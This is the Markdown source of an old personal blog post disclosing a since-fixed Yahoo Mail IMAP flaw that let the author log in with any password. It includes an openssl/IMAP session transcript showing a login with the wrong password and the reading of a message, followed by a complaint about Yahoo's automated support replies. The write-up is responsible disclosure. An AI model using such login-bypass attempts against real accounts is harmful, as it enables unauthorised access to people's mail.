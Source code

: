 ```yaml
---
title: "How I could log in to Yahoo Mail with any password"
excerpt_separator: <!--more-->
permalink: 2013-05-20-yahoo-imap-vulnerability.html
---
```


<div class="alert">
<strong>Note:</strong> This post is really old!
</div>

A little over a week ago I discovered a startling vulnerability in Yahoo Mail. I could log in to any of my accounts, and I presume many others, _with any password_. It seems to be fixed now, but Yahoo’s response left much to be desired.

First I’ll outline the vulnerability, then I’ll discuss Yahoo's response.

<h3 id="side_note">Side note</h3>

I discovered this while working on <a href="http://www.triage.cc">Triage</a>, an iPhone app for busy people who struggle to stay on top of their email. <a href="http://daringfireball.net/linked/2013/04/18/triage">John Gruber said</a> "since I've been using Triage, I'm more caught up on my email than I have been in years."" You should <a href="http://www.appstore.com/triageemailfirstaid">download Triage from the App Store now</a>.

<h2 id="the_vulnerability">The vulnerability</h2>

To be more specific, I could log into my accounts on Yahoo’s IMAP servers with any password. Of the three accounts I tested, the first was created in April, the other two a couple of weeks ago. This issue didn’t affect <a href="http://www.twitter.com/nzkoz" title="Koz">my colleague</a> who had a much older Yahoo Mail account. Perhaps the date the accounts were created had something to do with it?

If so, I wonder if Marissa would have fallen into the new Yahoo! Mail accounts camp? ;)

Here’s a transcript of the commands I used. Nothing fancy. Just IMAP commands. I also made <a href="http://www.youtube.com/watch?v=u4Uvnct-3Sw">a Youtube video of the vulnerability using three separate accounts</a>.

<pre><code>
$ openssl s_client -host imap.mail.yahoo.com -port 993
CONNECTED(00000003)
depth=1 /C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
verify error:num=20:unable to get local issuer certificate
verify return:0
---
Certificate chain
0 s:/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
1 s:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
i:/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance EV Root CA
---
Server certificate
-----BEGIN CERTIFICATE-----
(removed for brevity)
-----END CERTIFICATE-----
subject=/C=US/ST=CA/L=Sunnyvale/O=Yahoo! Inc./CN=imap.mail.yahoo.com
issuer=/C=US/O=DigiCert Inc/OU=www.digicert.com/CN=DigiCert High Assurance CA-3
---
No client certificate CA names sent
---
SSL handshake has read 3485 bytes and written 444 bytes
---
New, TLSv1/SSLv3, Cipher is RC4-SHA
Server public key is 2048 bit
Secure Renegotiation IS supported
Compression: NONE
Expansion: NONE
SSL-Session:
Protocol  : TLSv1
Cipher    : RC4-SHA
Session-ID: B462753AD5E31875DF769ACE765FDE067090D390FB4ADAC9D8BF5286B4A9316E
Session-ID-ctx: 
Master-Key: 9A37586CD75F079581F6E9EB1F870109BE36A593E9B365331C0BE9BC1CE59C45139AEF1D1CC6E4D7087EEBD3C6A378D4
Key-Arg   : None
Start Time: 1368067492
Timeout   : 300 (sec)
Verify return code: 0 (ok)
---
* OK [CAPABILITY IMAP4rev1 ID NAMESPACE X-ID-ACLID UIDPLUS LITERAL+ CHILDREN XAPPLEPUSHSERVICE XYMHIGHESTMODSEQ AUTH=PLAIN AUTH=LOGIN &gt; AUTH=XYMCOOKIE AUTH=XYMECOOKIE AUTH=XYMCOOKIEB64 AUTH=XYMPKI] IMAP4rev1 imapgate-0.7.68_14.357900 imap402.mail.aue.yahoo.com
1 LOGIN "mailtriageapp@yahoo.com" asdf
1 OK AUTHENTICATE completed - Mailbox size in bytes is 32815
2 SELECT INBOX
* 3 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 1366345105] UIDs valid
* OK [UIDNEXT 19] Predicted next UID
* FLAGS (\Answered \Flagged \Deleted \Seen \Draft)
* OK [PERMANENTFLAGS (\Answered \Flagged \Deleted \Seen \Draft)] Permanent flags
* OK [HIGHESTMODSEQ 5875762758974036000]
2 OK [READ-WRITE] SELECT completed; now in selected state
3 UID SEARCH UNSEEN
* SEARCH 18 
3 OK UID SEARCH completed
4 UID FETCH 18 (UID FLAGS RFC822.SIZE ENVELOPE BODY.PEEK[HEADER.FIELDS (References)])
* 3 FETCH (FLAGS (\Answered) UID 18 RFC822.SIZE 5781 ENVELOPE ("Thu, 9 May 2013 11:58:24 +1200" "Yaahooooo" (("Nick Malcolm" NIL &gt; "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Nick Malcolm" NIL "nick" "malcolm.net.nz")) (("Mail &gt; Triage" NIL "mailtriageapp" "yahoo.com")) NIL NIL NIL "&lt;B3BF01ABA37D4DB1AB43C819DBDDE658@malcolm.net.nz&gt;") BODY[HEADER.FIELDS (&gt; REFERENCES)] {2}

)
4 OK UID FETCH completed</code></pre>

You can see, after connecting to the server, that I log in to the account "mailtriageapp@yahoo.com" with the password _asdf_. The password was not asdf, nor was it any of the other incorrect passwords I attempted. I then opened the Inbox, and read the first unread message.

To me that seems like a <strong>huge</strong> vulnerability.

<h2 id="yahoos_response">Yahoo’s response</h2>

I immediately reported this to the Yahoo security team, and included transcripts of exploiting this with two of my accounts. This was on the 9th of May. Unfortunately, <a href="http://www.nilsjuenemann.de/2013/05/yahoo-please-start-with-vulnerability.html">like others have noted</a>, their response left much to be desired.

<blockquote>
"I refused to report more bugs to them because it’s boring to talk with bots."
<cite> - <a href="http://www.nilsjuenemann.de/2013/05/yahoo-please-start-with-vulnerability.html">Nils Jünemann</a></cite>
</blockquote>

&nbsp;

When you email security@yahoo-inc.com, you get an automated response:

> This is an <strong>automated message</strong> acknowledging your recent submission for help to Yahoo! Customer Care.
> <br />&nbsp;<br />
> Please do not reply to this automated message as replies will not been seen or answered by a Yahoo! Customer Care representative.
> <br />&nbsp;<br />
> If you reported abuse, we will investigate and take action where appropriate, and may be contacted if additional information is required to complete our investigation. We appreciate your efforts to make our community better.
> <br />&nbsp;<br />
> If you are submitting a request for assistance, or asking a question, a representative will respond as soon as possible.
> <br />&nbsp;<br />
> Your Incident ID is: <span>removed</span>
> <br />&nbsp;<br />
> Sincerely, The Yahoo! Customer Care Team

Like so many companies, Yahoo sent a “do not reply to this email” email. I simply can’t understand why any company would want to ignore user feedback. At the very least it should be simple enough to tack a customer’s response to the support ticket.

Later that day I got another seemingly automated response.

> Recently you requested personal assistance from our on-line support center. Below is a summary of your request and our response.
> <br />&nbsp;<br />
> <strong>Subject</strong> I can log in to IMAP with incorrect password
> <br />&nbsp;<br />
> <strong>Discussion Thread</strong> <strong>Response Via Email (Leslie Davids)</strong>
> <br />&nbsp;<br />
> Hello Nick,
> <br />&nbsp;<br />
> Thank you for contacting Yahoo!.
> <br />&nbsp;<br />
> I have analyzed your message, and it is best addressed by our Yahoo! Accounts team. To protect account security, this team requires specific information about your Yahoo! account that you provided during sign-up or when you last updated your account. I will need to ask you to <a href="http://io.help.yahoo.com/contact/index?locale=en_US&amp;y=PROD_ACCT&amp;page=contact">contact Yahoo! Accounts team</a> directly to provide the necessary information to resolve your issue.
> <br />&nbsp;<br />
> <strong>Note</strong>: Please do not reply to this message. Submitting an email through the form is the best way to get your answer.
> <br />&nbsp;<br />
> Please visit Yahoo! Privacy Center for information regarding Yahoo!’s Privacy Policy.
> <br />&nbsp;<br />
> Also, please read the help article about registering a Yahoo! ID.
> <br />&nbsp;<br />
> For additional help with Yahoo! products, please visit the Yahoo Help pages.
> <br />&nbsp;<br />
> Thank you again for contacting Yahoo!.
> <br />&nbsp;<br />
> Regards,
> <br />&nbsp;<br />
> Leslie Davids
> <br />&nbsp;<br />
> Yahoo! Customer Care www.yahoo.com

The reason I suspect this is a robot:

<ul>
<li>Leslie “analyzed” my message. Who says they analyzed a message?!</li>

<li>Why would she suggest I learn how to register a Yahoo! ID? I obviously already have two of them.</li>
</ul>

Again I was faced with the familiar “Please do not reply to this message”. To make matters worse, the suggested “contact Yahoo! Accounts team” link did not work in Chrome, Firefox, or Safari, neither when I was logged in or out of a Yahoo account.

I replied to Leslie with the strong suggestion of sending this directly to the security team, and also told her the contact form was broken. Later that night I made <a href="http://www.youtube.com/watch?v=u4Uvnct-3Sw">the Youtube video</a>, just to prove I wasn’t making things up.

<h2 id="alls_well">All's well that ends well</h2>

About three days later I noticed that Yahoo was now refusing bad passwords. That’s pretty quick, so at least someone is paying attention over there. All’s well that ends well, I guess.

I’m not sure what I expected. It feels good to have reported my first vulnerability. Especially one which seems to be so simple, yet very serious and far reaching. A thank you might have been nice.

But I really wish all companies, from startups to global behemoths, would stop sending “Do not reply” messages. It’s so impersonal. Just don’t do it.

If _you'd_ like to reply to this post, find me on twitter <a href="http://www.twitter.com/nickmalcolm">@nickmalcolm</a>.

Follow this story on <a href="https://news.ycombinator.com/item?id=5734833">Hacker News</a>.